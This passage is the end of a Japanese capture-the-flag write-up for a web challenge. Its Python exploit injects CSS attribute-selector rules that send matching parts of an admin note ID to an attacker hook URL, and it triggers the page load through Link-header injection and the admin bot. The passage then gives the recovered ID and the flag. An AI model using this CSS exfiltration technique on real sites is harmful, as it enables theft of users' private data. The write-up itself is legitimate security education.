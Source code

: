 ```python

    for c in rec(0, ""):
        note_description += "li a[href$={{value}}] { background: url({{hook_url}}/{{value}}) }\n".replace("{{value}}", c + suffix).replace("{{hook_url}}", hook_url)

    res = httpx.post(
        base_url + "/notes",
        data={
            "title": "xxx",
            "description": note_description,
        },
        allow_redirects=False,
    )
    assert res.status_code == 302

    note_url = base_ssrf_url + res.headers["Location"]
    print(note_url)
    exploit_path = "/?k=Link&v=" + quote("<" + note_url + "?k=Content-Type&v=" + quote("text/css; charset=utf-8") + ">; rel=\"stylesheet\"")

    res = httpx.post(
        base_url + "/tell",
        data={
            "path": exploit_path,
        },
        allow_redirects=False,
    )
    assert res.status_code == 302


f(n)
```

何度かスクリプトを回すことでadminノートのIDを後方から確定していきます。
本当は `hook_url` でホストして自動化したほうがかっこいいのですが、今回はIDが10文字で短いことがわかっていたので手動で確定させました。

また、`a[href $= 1abc]`のように数字から始まるとCSSセレクタとしてvalidではないため、1文字ずつではなく`n`文字ずつ確定できるようになっています。最後（先頭の文字）は数字のようだったので0から9までbrute forceしました。[作問者writeup](https://diary.shift-js.info/tsgctf-2021-udon/)によれば`a[href $= \31\61\62\63]`でエスケープできたんですね。知らなかった。

最終的にIDは`4R1cmOAtdG`でした。該当ノートのページにアクセスするとフラグゲットです。

## フラグ

```
TSGCTF{uo_uo_uo_uo_uoooooooo_uo_no_gawa_love}
```

## 感想

TSG CTFらしく、「有り余るCS力と作問センスでぶん殴ったらできました」的な印象を受けた問題たちでした。
色々な問題に取り組みたいけど24hでは短い、かと言って48hになると疲れてしまうので自分が強くなるしかないですね。精進します。

運営・作問の方々たのしいCTFをありがとうございました。来年のTSG CTFにも参加したいです。


[^1]: web問でのbotは大抵chromeが使われるので、firefoxの場合には「そこが攻撃ポイントになることが多い」というメタ読みができます。